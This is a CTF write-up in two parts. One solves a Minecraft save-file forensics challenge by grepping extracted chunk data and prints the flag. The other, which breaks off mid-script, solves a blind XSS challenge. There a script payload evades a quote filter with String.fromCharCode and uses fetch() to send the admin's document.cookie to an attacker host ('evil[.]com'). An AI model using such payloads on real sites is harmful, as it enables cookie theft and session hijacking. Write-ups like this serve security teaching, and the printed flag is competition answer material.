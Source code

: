 We are given Minecraft world save file, look for ways to parse this. I found a chunk extractor script that can extract contents from a region save. From there we can grep each region for any minecraft chunk/block we want.


https://github.com/sudofox/minecraft-utils/blob/master/region-parser/region-parser.sh


```bash
# unzip the save file and under regions run the script for each .mca file
./region-parser.sh r.0.-1.mca 
./region-parser.sh r.0.0.mca 
# ... 

# after unpacking all we can check each content if it contains chest / paper
find . -name "*.nbt" -exec grep minecraft:chest {} \;
find . -name "*.nbt" -exec grep minecraft:paper {} \;

# we can just search for the flag 
find . -name "*.nbt" -exec grep -a bctf {} \;

```
![Alt text](_attachments/image-2.png)
flag: **bctf{ch1st_ch2st_ch3st_ch4st_ch5st}**

---
# web
## web/b01ler-ad
`#xss/blind #filter-bypass`

XSS challenge - We are allowed to input any html data we want and the admin visits that but the content should not contain quotes, double quotes and backticks:

Main challenge
```js
  const content = req.body.content.replace("'", '').replace('"', '').replace("`", '');
  const urlToVisit = CONFIG.APPURL + '/admin/view/?content=' + content;
```

We can use `String.fromCharCode` https://charcode98.neocities.org/ to avoid using quotes and encode our URL before sending it to the admin. Admin visits our site with their cookies in the query.

```python
import requests
url = 'http://b01ler-ads.hammer.b01le.rs/review'

# fetch('evil[.]com?cookie'=document.cookie)
payload = """
<script>
     var url = String.fromCharCode(104, 116, 116, 112, 58...)
     fetch(url+ encodeURI(document.cookie))
</script>
"""

encoded = "%3Cscript%3E%0A%20%20%20%20let%20url%20%3D%20String%2EfromCharCode%28104%2C%20116%2C%20116%2C%20112%2C%2058%2E%2E%2E%29%0A%20%20%20%20fetch%28url%20%20encodeURI%28document%2Ecookie%29%29%0A%3C%2Fscript%3E"

data = {
```